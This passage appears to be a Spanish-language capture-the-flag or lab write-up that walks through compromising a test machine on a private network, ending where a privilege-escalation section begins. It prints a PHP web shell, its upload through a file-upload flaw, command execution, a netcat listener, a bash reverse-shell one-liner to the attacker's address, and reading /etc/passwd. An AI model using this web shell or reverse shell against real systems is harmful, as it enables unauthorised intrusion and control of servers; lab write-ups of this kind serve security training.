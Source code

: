 Creamos este archivo malicioso en php, **shell.php**
```php
<?php
  system($_GET["cmd"]);
?>
```

Una ves cargado nuestro archivo vemos que si nos deja subirlo ya que al darle al boton de: **( Subri a la nube )** se ha subido con exito, 
Ahora revisando la ruta donde se cargan los archivos que subamos, Tenemos lo siguiente
```bash
# Aqui esta nuestro archivo shell.php
http://192.168.100.25/uploads/cloud_9d0c2f/
```

Tenemos que ver si logramos ejecutar comandos, en el objetivo,
### Ejecucion del Ataque
Tenemos **RCE** en el objetivo, Logramos ejecucion de comandos
```bash
# Comandos para explotación
http://192.168.100.25/uploads/cloud_9d0c2f/shell.php?cmd=whoami
```

En la respuesta del servidor tenemos lo siguiente:
```bash
www-data
```

### Intrusion
Ahroa nos ponemos en Modo escucha para ganar acceso al objetivo
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
192.168.100.25/uploads/cloud_9d0c2f/shell.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/192.168.100.26/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion Usuarios
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
operatorx:x:1000:1000:operator:/home/operatorx:/bin/bash
```

### Explotacion de Privilegios
